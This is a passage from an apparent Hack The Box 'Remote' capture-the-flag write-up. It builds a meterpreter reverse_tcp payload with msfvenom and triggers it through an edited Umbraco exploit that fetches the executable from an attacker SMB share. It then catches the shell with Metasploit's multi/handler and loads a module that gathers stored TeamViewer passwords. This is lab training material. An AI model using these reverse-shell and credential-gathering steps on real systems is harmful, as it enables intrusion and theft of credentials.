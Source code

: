 

2. Googling about TeamViewer7 exploits we find a msf module that finds storde credentials and crack them. To use msf modules we need a meterpreter session so start by creating a meterpreter payload and trigger a reverse by editing the first Umbraco python vuln.

    root@nidus:/opt/htb/machines/remote# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=4499 -f exe > rev-meterpreter.exe
    root@nidus:/opt/htb/machines/remote# cat meterpreter.py
      ..
      string cmd = "//10.10.14.2/pub-share/rev-meterpreter.exe"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
      proc.StartInfo.FileName = "powershell.exe";
      ..

    root@nidus:/opt/htb/machines/remote# msfdb run
    msf5 > use exploit/multi/handler
    msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
    msf5 exploit(multi/handler) > set lhost 10.10.14.2
    msf5 exploit(multi/handler) > set lport 4499
    msf5 exploit(multi/handler) > run

    root@nidus:/opt/htb/machines/remote# python meterpreter.py
      ..
      [*] Meterpreter session 1 opened (10.10.14.2:4499 -> 10.10.10.180:49710) at 2020-05-07 15:05:31 +0200

    meterpreter >

3. Copy the module (https://whynotsecurity.com/blog/teamviewer/) and paste it in /root/.msf4/modules

    root@nidus:~/.msf4/modules# cp /opt/htb/machines/remote/remote-tv.rb /root/.msf4/modules/post/windows/gather/credentials/
    root@nidus:~/.msf4/modules# ls -al /root/.msf4/modules/post/windows/gather/credentials/
      total 16
      drwxr-xr-x 2 root root 4096 May  7 14:57 .
      drwxr-xr-x 3 root root 4096 May  7 14:56 ..
      -rw-r--r-- 1 root root 4523 May  7 14:57 remote-tv.rb

    Background the meterpreter session and update the database.
    meterpreter > background
      [*] Backgrounding session 1...
    msf5 exploit(multi/handler) > updatedb
      [*] exec: updatedb

4. Use the custom TeamViewer module to search for stored passwords.

    msf5 exploit(multi/handler) > search teamviewer

      Matching Modules
      ================

         #  Name                                                  Disclosure Date  Rank    Check  Description
         -  ----                                                  ---------------  ----    -----  -----------
         0  post/windows/gather/credentials/teamviewer_passwords                   normal  No     Windows Gather TeamViewer Passwords
